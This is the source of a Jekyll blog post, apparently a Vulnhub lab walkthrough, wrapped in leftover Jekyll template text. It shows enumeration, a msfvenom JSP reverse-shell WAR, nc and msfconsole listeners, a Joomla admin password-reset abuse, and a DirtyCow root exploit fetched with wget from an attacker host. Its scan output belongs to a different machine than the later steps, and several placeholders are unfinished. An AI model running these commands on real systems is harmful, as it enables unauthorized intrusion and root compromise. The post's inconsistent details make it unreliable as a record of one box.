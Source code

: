 ```yaml
---
layout: post
title:  "Sedna: Vulnhub Walkthrough"
date:   2019-08-02 15:07:19
categories: [tutorial]
comments: true
---
```

You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. You can rebuild the site in many different ways, but the most common way is to run `jekyll serve`, which launches a web server and auto-regenerates your site when a file is updated.

To add new posts, simply add a file in the `_posts` directory that follows the convention `YYYY-MM-DD-name-of-post.ext` and includes the necessary front matter. Take a look at the source for this post to get an idea about how it works.

<!--more-->
## Information Gathering
We'll start with an nmap `scan`:

```
nmap -sV -O -p- -oN /root/oscp/exam/zico/zico.nmap zico
Nmap scan report for zico (192.168.109.128)
Host is up (0.0011s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
111/tcp   open  rpcbind 2-4 (RPC #100000)
35613/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:FD:3A:40 (VMware)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 22 15:30:34 2018 -- 1 IP address (1 host up) scanned in 15.74 seconds

```

Just a spoiler there are several ways to get a shell on this box. I'll show you below. There are several http ports open. 
We shall enumerate all of them http ports using dirb.

dirb http://192.168.175.135
This doesn't give much

## Method One: Tomcat

Navigating to http://192.168.175.135:8080 shows that its running a tomcat server. We'll bruteforce for any hidden directories or simply try `/manager` as its common on tomcat

dirb http://192.168.175.135:8080
```
URL_BASE: http://192.168.175.135:8080/
---- Scanning URL: http://192.168.175.135:8080/ ----
==> DIRECTORY: http://192.168.175.135:8080/docs/
==> DIRECTORY: http://192.168.175.135:8080/examples/
==> DIRECTORY: http://192.168.175.135:8080/host-manager/
+ http://192.168.175.135:8080/index.html (CODE:200|SIZE:1895)
==> DIRECTORY: http://192.168.175.135:8080/manager/
==> DIRECTORY: http://192.168.175.135:8080/META-INF/

```

... and what do you know
Going to the manager link
`http://192.168.175.135:8080/manager`
asks for a password. We do have a file that has a passwords for Tomcat servers. We try some default passwords. If not we can try to brute-force using hydra;

#### Insert hydra command here;
We'll use 
username: tomcat 
password:tomcat

and we're in. 
### Insert image here.

Now we know tomcat runs java hence jsp hence we'll use this to generate a payload;
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.227.135 LPORT=80 -f war > rs.war
```
On the attackers box we can either use msfconsole or nc as follows

### Start a listener in msfconsole
```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD java/jsp_shell_reverse_tcp; set LHOST 10.11.0.250; set LPORT 80; set ExitOnSession false; exploit -j"
```
### Start a nc listener
```
nc -lnvp 80
```
## Method Two: Joomla

We'll follow the same drill. Port 8081 is running Joomla, hence we'll bruteforce for any hidden directories.
dirb http://192.168.175.135:8081 
```
URL_BASE: http://192.168.175.135:8081/
---- Scanning URL: http://192.168.175.135:8081/ ----
==> DIRECTORY: http://192.168.175.135:8081/administrator/
==> DIRECTORY: http://192.168.175.135:8081/cache/
+ http://192.168.175.135:8081/cgi-bin/ (CODE:403|SIZE:292)
==> DIRECTORY: http://192.168.175.135:8081/components/
==> DIRECTORY: http://192.168.175.135:8081/images/
==> DIRECTORY: http://192.168.175.135:8081/includes/
+ http://192.168.175.135:8081/index.php (CODE:200|SIZE:4047)
==> DIRECTORY: http://192.168.175.135:8081/javascript/
==> DIRECTORY: http://192.168.175.135:8081/language/
==> DIRECTORY: http://192.168.175.135:8081/libraries/
==> DIRECTORY: http://192.168.175.135:8081/logs/
==> DIRECTORY: http://192.168.175.135:8081/media/
==> DIRECTORY: http://192.168.175.135:8081/modules/
==> DIRECTORY: http://192.168.175.135:8081/phpmyadmin/
==> DIRECTORY: http://192.168.175.135:8081/plugins/
+ http://192.168.175.135:8081/robots.txt (CODE:200|SIZE:304)
+ http://192.168.175.135:8081/server-status (CODE:403|SIZE:297)
==> DIRECTORY: http://192.168.175.135:8081/templates/
==> DIRECTORY: http://192.168.175.135:8081/tmp/
==> DIRECTORY: http://192.168.175.135:8081/xmlrpc/

```
Another thing we can do is use Joomscan to further enumerate
`joomscan -u http://192.168.175.135:8081`

### iNSERT image
Reading through the log we find that `#15` holds something useful. A  vulnerability exists that allows users to change admin password;

### Insert image

We reset the password and log in;

Once we in as admin. We look for a php file we can edit. To do this;
1. go to Extensions
2. Template Manager
3. Selec the active template
4. Edit the template and save changers.

Once this is done we can execute commands through  the browser. 
As usual we'll use Burp to intercept and execute the payload;

## Other interests
This box is also running `Samba` and we can see from the smb enum script, we can Read/Write into the $IPC Service

```
Host script results:                                                      
| smb-enum-shares:                                                   
|   account_used: guest                                                   
|   IPC$:                                                                 
|     Type: STYPE_IPC_HIDDEN                                              
|     Comment: IPC Service (canyoupwnme server (Samba, Ubuntu))           
|     Users: 1                                                            
|     Max Users: <unlimited>                                              
|     Path: C:\tmp                                                        
|     Anonymous access: READ/WRITE                                        
|     Current user access: READ/WRITE


``` 

## Post Exploitation

```
uname -a
Linux canyoupwnme 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux
```
From this kernel version we can attempt a kernel exploit.
It may crash the system but we'll still try it.
We'll attempt to use the dirtycow exploit.
####Add link to dirtycow
```
wget http://192.168.175.132:1234/cowroot.c -O /tmp/cowroot.c
Edit it for either 32bit or 64bit.


python -c "import pty; pty.spawn('/bin/bash');"
gcc -pthread cowroot.c -o cowroot && chmod 744 cowroot && ./cowroot asdf
Once you get a shell enter the following command. chap chap
echo 0 > /proc/sys/vm/dirty_writeback_centisecs

```
Other way is to use the suid bit set.

Check out the [Jekyll docs][jekyll] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll’s dedicated Help repository][jekyll-help].

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
